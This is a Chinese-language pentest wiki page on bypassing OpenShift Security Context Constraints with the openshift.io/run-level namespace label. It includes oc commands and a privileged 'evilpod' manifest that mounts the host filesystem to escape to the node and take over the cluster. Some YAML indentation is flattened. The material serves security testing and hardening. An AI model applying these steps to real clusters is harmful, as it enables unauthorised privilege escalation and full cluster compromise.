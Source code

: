 # Openshift - SCC绕过

**本页面的原作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特权命名空间

默认情况下，SCC不适用于以下项目：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

如果您在这些命名空间之一部署Pod，将不会执行任何SCC，允许部署特权Pod或挂载主机文件系统。

## 命名空间标签

根据RedHat文档，有一种方法可以禁用Pod上的SCC应用程序。您将需要至少具备以下权限之一：

- 在命名空间上创建Pod
- 编辑命名空间并在该命名空间上创建Pod
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定标签 `openshift.io/run-level` 使用户能够绕过应用程序的 SCC。根据 RedHat 文档，当使用此标签时，在该命名空间中的所有 pod 上不会执行任何 SCC，有效地移除了任何限制。

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 添加标签

要在您的命名空间中添加标签：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
要通过一个YAML文件创建一个带有标签的命名空间：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
现在，在该命名空间上创建的所有新 pod 不应该有任何 SCC

```bash
$ oc get pod -o yaml | grep 'openshift.io/scc'
$
``` 

在没有 SCC 的情况下，对您的 pod 定义没有任何限制。这意味着可以轻松创建恶意 pod 以逃逸到主机系统。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
现在，提升权限以访问主机系统并随后接管整个集群，获取 'cluster-admin' 权限变得更加容易。在以下页面中查找 **Node-Post Exploitation** 部分：

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### 自定义标签

此外，根据目标设置，一些自定义标签 / 注释可能会以与先前攻击场景相同的方式使用。即使不是为此目的，标签也可以用于授予权限、限制或不限制特定资源。

尝试查找自定义标签，如果可以读取一些资源的话。以下是一些有趣的资源列表：

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 列出所有特权命名空间
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高级利用

在 OpenShift 中，正如之前演示的，拥有在带有 `openshift.io/run-level` 标签的命名空间中部署 pod 的权限可能导致对集群的简单接管。从集群设置的角度来看，这种功能**无法被禁用**，因为它是 OpenShift 设计的固有部分。

然而，诸如**Open Policy Agent GateKeeper**之类的缓解措施可以阻止用户设置此标签。

为了绕过 GateKeeper 的规则并设置此标签以执行集群接管，**攻击者需要识别替代方法。**

## 参考资料

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
